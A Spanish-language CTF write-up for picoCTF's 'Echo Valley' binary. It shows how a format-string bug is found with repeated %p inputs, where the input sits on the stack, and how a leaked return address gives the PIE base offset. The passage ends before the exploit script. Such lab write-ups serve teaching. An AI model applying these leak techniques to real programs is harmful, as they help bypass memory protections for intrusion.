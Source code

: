 Si miramos la función `echo_valley` podemos ver como efectivamente estamos en un bucle donde nos piden el input hasta que introduzcamos `exit`. Si nos fijamos en como se representa nuestro input en pantalla podemos ver como no está especificado el formato, con lo cual hay una vulnerabilidad de format string.

Vamos a probar a lanzar muchas `%p` a ver si hay algo curioso por el stack:

```c
./valley
Welcome to the Echo Valley, Try Shouting: 
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
You heard in the distance: 0x7ffc611845c0 (nil) (nil) (nil) (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x207025 0xc4d7f2c0ba99ee00 0x7ffc611847f0 0x55c3cf318413 0x1 0x7f471c81bca8 0x7ffc611848f0 0x55c3cf318401 0x1cf317040 0x7ffc61184908 0x7ffc61184908 0xde65293a6740c525 (nil) 0x7ffc61184918 0x7f471ca40000 0x55c3cf31ad78
```

Podemos ver algunas direcciones, si nos fijamos bien podemos ver alguna dirección interesante:

* En el puesto 20 del stack: `0x7ffc611847f0` (parece una dirección del stack)
* En el puesto 21 del stack: `0x55c3cf318413` (parece una dirección del programa)

A parte de eso podemos intentar ver si nuestro input está también:

```c
ABCDEF%p %p %p %p %p %p %p %p %p %p
You heard in the distance: ABCDEF0x7ffeb9742620 (nil) (nil) 0x560a17ab96d4 (nil) 0x7025464544434241
```

Y efectivamente está en la posición 6.

Vamos a investigar un poco mas que hay en la dirección del elemento 21 del stack

```c
You heard in the distance: 0x555555555413

   0x000055555555540e <+13>:      call   0x555555555307 <echo_valley>
   0x0000555555555413 <+18>:      mov    eax,0x0
   0x0000555555555418 <+23>:      pop    rbp
```

Ajá! Esa dirección es la dirección siguiente a un call, lo que quiere decir que es la dirección de la dirección de retorno una vez estemos dentro de la función a la que se llama.

Como sabemos la dirección de una instrucción leakeada en el stack podemos calcular el offset de esa instrucción, y con el offset podemos luego en pwntools sacar la dirección del binario:

```c
piebase
Calculated VA from /home/ub1cu0/Desktop/picoCTF/Echo_Valley/valley = 0x555555554000

Offset de la Dirección de Retorno: 0x555555555413 - 0x555555554000 = 0x1413
```

La dirección del binario la calcularemos mas adelante cuando hagamos el script que resuelva el ejercicio.
